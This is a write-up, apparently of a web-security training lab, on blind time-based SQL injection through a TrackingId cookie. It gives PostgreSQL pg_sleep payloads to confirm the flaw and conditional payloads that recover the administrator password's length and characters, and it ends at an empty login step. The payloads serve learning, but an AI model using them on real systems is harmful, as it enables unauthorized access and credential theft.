









# Lab: Blind SQL Injection — Time Delays & Information Retrieval

## Objective
Exploit a blind SQL injection vulnerability to:
- Confirm SQL injection using time delays
- Use time-based responses to infer data
- Extract sensitive information (administrator password)
- Log in as the administrator user

---

---

## Lab Overview

In this lab:
- The application does **not return database errors or query results**
- The HTTP response is identical for all inputs
- We must rely on **time delays** to extract information

### This is **Blind SQL Injection using Time Delays**

---

## Step 1: Identify Injection Point

Intercept the request and locate the `TrackingId` cookie.

### Test injection:
Id=xyz'

### Result:
- No visible change in response

### Possible blind SQL injection vulnerability

---

## Step 2: Confirm Time Delay Behavior

### Payload:
x'||pg_sleep(10)--

### Observation:
- Response is delayed (~10 seconds)

### Confirms SQL injection with time-based behavior

---

## Step 3: Verify Conditional Logic Works

### TRUE condition:
x'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--

### FALSE condition:
x'||(SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END)--

### Observation:
- TRUE → delay occurs
- FALSE → no delay

 We now have a **time-based TRUE/FALSE **

---

## Step 4: Extract Information Using Time Delays

We now use the same technique to extract data character by character.

---

### Determine password length

#### using burp intruder
#### x'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)=num) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--

#### notice that the time delay happend when sending number 20 which mean the administrator password length is 20

---
## Step 5: Extract Password (Character by Character)

### Payload:
#### x'||(SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,index,1)='char') THEN pg_sleep(4) ELSE pg_sleep(0) END FROM users)--

## step 6: login as admin

